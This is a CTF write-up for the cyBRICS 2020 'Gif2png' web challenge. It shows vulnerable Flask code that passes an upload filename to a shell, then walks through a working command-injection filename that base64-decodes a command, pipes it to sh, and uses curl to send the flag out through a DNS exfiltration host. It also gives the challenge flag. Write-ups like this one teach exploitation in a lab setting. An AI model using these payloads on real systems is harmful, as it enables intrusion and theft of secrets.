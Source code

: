```yaml
---
layout: post
title: "cyBRICS CTF 2020 - Gif2png"
description: "Resolution of the cyBRICS CTF challenge named Gif2png"
tags: [ctf,web,cybricsctf]
---
```


<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-00-0ede9e305950712e679e89bb1e99939bceb88e58ae733ccf1047f6dba0e458fb.jpg">

Gif2Png is an easy web challenge from `cyBRICS CTF 2020`, an interesting web challenge that teaches you `command injection` through image's filename.

The challenge had the following description/details: 

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-01-19a95b1d764ce4a33d90e54c311910ba49d3443274d8c46e9a2048f20a87b2fc.png">

A copy of the original web application's source code is available on: [gif2png.tar.gz](https://mega.nz/file/oMJnVAbR#qkUfgCsgjhkueLh9dOeKc_7Pm1BXzwacspLZxjvLB5Q)

The challenge web page:

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-02-bca1ccb08ee990ca148bb270822bcfd4eb521cf5b3954a923b153bb83e05be4c.png">

It seems that the web application slices the gif into frames and display them on the screen:

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-03-f19871cac5a882c348b311abdaaa4f860eb0fb5fc2fd43149313ba7c4d3ea066.png">

So now let's check the source code of the web application to understand how it is done.

This is the source code of the main file, named `main.py`:

```python
import logging
import re
import subprocess
import uuid
from pathlib import Path

from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory
from flask_bootstrap import Bootstrap
import os
from werkzeug.utils import secure_filename
import filetype


ALLOWED_EXTENSIONS = {'gif'}

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['SECRET_KEY'] = '********************************'
app.config['MAX_CONTENT_LENGTH'] = 500 * 1024  # 500Kb
ffLaG = "cybrics{********************************}"
Bootstrap(app)
logging.getLogger().setLevel(logging.DEBUG)

def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    logging.debug(request.headers)
    if request.method == 'POST':
        if 'file' not in request.files:
            logging.debug('No file part')
            flash('No file part', 'danger')
            return redirect(request.url)

        file = request.files['file']
        if file.filename == '':
            logging.debug('No selected file')
            flash('No selected file', 'danger')
            return redirect(request.url)

        if not allowed_file(file.filename):
            logging.debug(f'Invalid file extension of file: {file.filename}')
            flash('Invalid file extension', 'danger')
            return redirect(request.url)

        if file.content_type != "image/gif":
            logging.debug(f'Invalid Content type: {file.content_type}')
            flash('Content type is not "image/gif"', 'danger')
            return redirect(request.url)

        if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)) or ".." in file.filename:
            logging.debug(f'Invalid symbols in filename: {file.content_type}')
            flash('Invalid filename', 'danger')
            return redirect(request.url)

        if file and allowed_file(file.filename):
            filename = secure_filename(file.filename)
            file.save(os.path.join(app.config['UPLOAD_FOLDER'], file.filename))

            mime_type = filetype.guess_mime(f'uploads/{file.filename}')
            if mime_type != "image/gif":
                logging.debug(f'Invalid Mime type: {mime_type}')
                flash('Mime type is not "image/gif"', 'danger')
                return redirect(request.url)

            uid = str(uuid.uuid4())
            os.mkdir(f"uploads/{uid}")

            logging.debug(f"Created: {uid}. Command: ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"")

            command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
            command.wait(timeout=15)
            logging.debug(command.stdout)

            flash('Successfully saved', 'success')
            return redirect(url_for('result', uid=uid))

    return render_template("form.html")


@app.route('/result/<uid>/')
def result(uid):
    images = []
    for image in os.listdir(f"uploads/{uid}"):
        mime_type = filetype.guess(str(Path("uploads") / uid / image))
        if image.endswith(".png") and mime_type is not None and mime_type.EXTENSION == "png":
            images.append(image)

    return render_template("result.html", uid=uid, images=images)


@app.route('/uploads/<uid>/<image>')
def image(uid, image):
    logging.debug(request.headers)
    dir = str(Path(app.config['UPLOAD_FOLDER']) / uid)
    return send_from_directory(dir, image)


@app.errorhandler(413)
def request_entity_too_large(error):
    return "File is too large", 413


if __name__ == "__main__":
    app.run(host='localhost', port=5000, debug=True, threaded=True)
{% endhighlight %}
```

What caught my attention was the line 104:

```python
command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
```

This can be very insecure because the web application is passing an user input to be executed as system command. (`file.filename`)

There's a small condition that checks for some characters on filename and blocks the upload:

```python
if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)) or ".." in file.filename:
  logging.debug(f'Invalid symbols in filename: {file.content_type}')
  flash('Invalid filename', 'danger')
  return redirect(request.url)
```

So now we need to exploit this weak point.

The very first thing we need to do is stop the actual ffmpeg command and execute another one, to do this we need to escape the `'` quotes and append another command.

I found a way to bypass the filename verification using double pipelines to execute my system command, the malicious filename will look something like this:

> `MALICIOUS_NAME'||MALICIOUS SYTEM COMMAND HERE||'`

```shell
ffmpeg -i 'uploads/MALICIOUS_NAME'||MALICIOUS SYTEM COMMAND HERE||' "uploads/{uid}/%03d.png\"
```

There's a final problem: how to inject system commands through filename and bypass the filename check? `Encoding the payload with base64, decoding and executing on the fly!`

> `echo d2hvYW1pO2lkO3NsZWVwIDEw|base64 -d|sh`

Unfortunatelly, the challenge server had a firewall blocking reverse shells and requests to the external resources through port 80.
So I came with the idea of exfiltrating the flag (inside the main.py) through DNS using `dnsbin.zhack.ca`:

> `flag=$(cat main.py|grep -wo cybrics{.*|base64|tr -d '=');curl $flag.a0325542a59398d0bda8.d.zhack.ca`

The flag is extracted from the main.py and sent through DNS using DNSBin, all we need to do is encode the above command as base64 and rename the file:

The encoded payload:

> `ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh`

The 2nd part:

> `echo ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh|base64 -d|sh`

The final filename:

> `nullarmor'||echo ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh|base64 -d|sh||'.gif`

Now we just renamed a gif file with the malicious filename and uploaded it on the Gif2png web application!

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-04-bab35abb8f097541da9a97cabfe9d2c07e8434155e5fe0063f2e406835b4ff16.png">

Done, after 5 seconds the base64 encoded flag will be sent through DNS!

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-04-bab35abb8f097541da9a97cabfe9d2c07e8434155e5fe0063f2e406835b4ff16.png">

# Flag:
``` cybrics{imagesaresocoolicandrawonthem}

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-06-0069647c11ff4ae14468d1673853c5adb6549af2350dfe82528b25e98fea8f07.png">
